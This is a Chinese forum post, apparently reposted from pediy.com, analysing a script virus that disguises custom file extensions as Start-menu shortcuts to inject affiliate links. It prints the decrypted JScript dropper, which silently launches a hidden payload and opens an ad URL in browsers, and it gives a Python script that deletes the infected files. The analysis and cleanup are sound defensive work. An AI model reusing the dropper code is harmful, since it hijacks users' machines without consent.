

# 一个弱脚本病毒分析查杀

> 原文：[`www.pediy.com/kssd/pediy11/118841.html`](https://www.pediy.com/kssd/pediy11/118841.html)

朋友说中了个病毒很烦 然后就帮她查看了一下。  
用 xuetr 看了看 没发现什么异常  
最后发现开始菜单下某个文件下的快捷方式都有两个，如图。而且一点这个文件 就会在桌面生成淘宝的链接。（这些做淘宝客的人还挺恶心的）。  
然后想 会不会是快捷方式指向病毒文件 运行病毒 然后再运行正确的文件。  
然后把“快捷方式”拖到 QQ 里传到自己电脑上一看，是一个后缀很奇怪的文件（文件名卸载.psydckcvewon）。看这文件名 觉得是随机的 然后 GOOGLE 了一下 搜索不到 果然是随机的。  
想到应该是自定义文件后缀 CMD 下运行 assoc 和 ftype 一看 果然是自定义的文件后缀 指向

代码:

```
wscript.exe /B  "%1"

```

原来是 vbs 文件  然后修改后缀成 txt 发现是加密后的 vbs 脚本 找个在线的解密一下   
代码:

```
/\*1JQOUESBWBGZK  = "unhnyksavqggjdgqugrqaprktpdddpkjik"  ; 
CJRWKKQEMVVJ  = "vhuujpkkdhllgdrkoqbgcwkxgbtxlutrhk"  ; 
JLRKFHVOSMRY  = "sokiahwedpwqjusrgkpcxofqkixgmbpltm"  ; 
WFSKZTFPUCFP  = "swlmymuvkdsosuqinlxhdfvpnmwydvhyii"  ; 
NEOCKQHYCWLE  = "aynhhixwvpuyppyfeedqkbpvnuidgndmpi"  ; 
\*/var \_\_x\_abcd = new ActiveXObject("WScript.Shell");
\_\_x\_abcd.Run("wscript.exe /B \\"C:\\\\Program Files\\\\Internt Explorer\\\\Windows Live\\\\EditPlus\\\\logoff.jse\\" -run" ,  0 , false ) ;
var \_\_x\_abhb="C:\\\\Program Files\\\\Kingsoft\\\\WPS Office Personal\\\\utility\\\\uninst.exe";
var \_\_x\_abgum="";
if (\_\_x\_abhb == ""){
WScript.Quit() ;
}
var \_\_x\_abce = new Array() ;
\_\_x\_abce.push( "MAXTHON.EXE") ;\_\_x\_abce.push( "THEWORLD.EXE") ;\_\_x\_abce.push( "IEXPLORE.EXE") ;\_\_x\_abce.push( "360SE.EXE") ;\_\_x\_abce.push( "SOGOUEXPLORER.EXE") ;\_\_x\_abce.push( "TTRAVELER.EXE") ;\_\_x\_abce.push( "FIREFOX.EXE") ;
var \_\_x\_abeo = function(\_\_x\_abfk){
var \_\_x\_abfkUpper = \_\_x\_abfk.toUpperCase();
for (var \_\_x\_abfj in \_\_x\_abce){
if (\_\_x\_abfkUpper.indexOf(\_\_x\_abce\[\_\_x\_abfj\]) > 0){
return true
}
}
return false
};
var \_\_x\_abcj =new Array() ;
\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn") ;\_\_x\_abcj.push( "http://www.80904.cn");
var \_\_x\_abck=\_\_x\_abcj\[parseInt(Math.random() \* \_\_x\_abcj.length)\] ;
if (\_\_x\_abeo(\_\_x\_abhb)){
\_\_x\_abgum = "\\"" + \_\_x\_abck + "\\"" ;
}
\_\_x\_abcd.Run("\\"" + \_\_x\_abhb + "\\" " + \_\_x\_abgum, 1, false) ;
WScript.Sleep(5000);
 

```

对 vbs 脚本不怎么了解 但还是找到了病毒的主文件代码:

```
C:\\\\Program Files\\\\Internt Explorer\\\\Windows Live\\\\EditPlus\\\\logoff.jse\\

```

重新 ftype 看一下 发现有很多的自定义脚本后缀伪装成快捷方式 借此运行上面的 logoff.jse  
logoff.jse 大小 400 多 KB 推断应该是纯脚本病毒。  
也是加密的 解密了一下 基本上没成功 不过也挺简单的 没什么兴趣继续看下去了 想想根据 ftype 和 assoc 里的信息直接删除这些伪装的脚本就算删除所有病毒了吧。于是写了个 py 脚本 先寻找病毒文件后缀 然后删除。  
下面是脚本内容  
代码:

```
# coding:utf-8

import os
import tempfile


v\_type = tempfile.mktemp()
v\_assoc = tempfile.mktemp()
v\_ext = \[\]

os.system('ftype >%s' % v\_type)
os.system('assoc >%s' % v\_assoc)

with open(v\_type) as f:
    for line in f.readlines():
            if line.find('wscript.exe /B  "%1"') > 0:
                ftype = line.split('=')\[0\]
                #print ftype,
                with open(v\_assoc) as f:
                    for line in f.readlines():
                        line = line.replace('\\n', '').replace('\\r', '')
                        #print line.split('=')\[1\]
                        if line.split('=')\[1\] == ftype:
                            v\_ext.append(line.split('=')\[0\])
                            break

print 'virus ext: '
for ext in v\_ext:
    print '\\t%s' % ext
print ''

for root, dirs, files in os.walk(''):
    for file in files:
        if os.path.splitext(file)\[1\] in v\_ext:
            virus = os.path.join(root, file)
            print 'delete %s' % virus
            os.unlink(virus)

print ''
print 'Press Enter To Exit .'
raw\_input()

```

上传的附件
|  || Virus.7z.rar\[解压密码是：kill\_virus\]  
 |